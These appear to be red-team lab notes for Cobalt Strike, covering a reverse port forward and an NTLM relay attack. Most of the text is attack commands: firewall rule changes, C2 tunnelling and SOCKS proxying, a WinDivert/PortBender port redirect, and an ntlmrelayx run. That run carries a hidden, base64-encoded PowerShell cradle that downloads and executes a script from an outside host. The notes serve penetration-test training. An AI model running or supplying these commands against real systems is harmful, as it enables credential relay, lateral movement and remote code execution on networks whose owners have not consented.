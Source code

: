 Configure foxyproxy

- https://offensivedefence.co.uk/posts/ntlm-auth-firefox/

### Reverse Port Forward

```bash
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
beacon> rportfwd 8080 127.0.0.1 80
beacon> run netstat -anp tcp
# Remove Firewall Rule
beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"
```

### NTLM Relay


1. A driver to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3. The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

> This pretty much breaks any legitimate SMB service on the machine.

> One of the main indicators of this activity is the driver load event for WinDivert.  You can find driver loads in Kibana using the "Loaded Drivers" saved search.

```bash
# allow those ports inbound on the Windows firewall
beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
# Then start two reverse port forwards
beacon> rportfwd 8445 localhost 445
beacon> rportfwd 8080 localhost 80
# setup is to start a SOCKS proxy that ntlmrelayx can use to send relay responses back into the network
beacon> socks 1080
sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
# Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console
beacon> PortBender redirect 445 8445
beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

### Relaying WebDAV
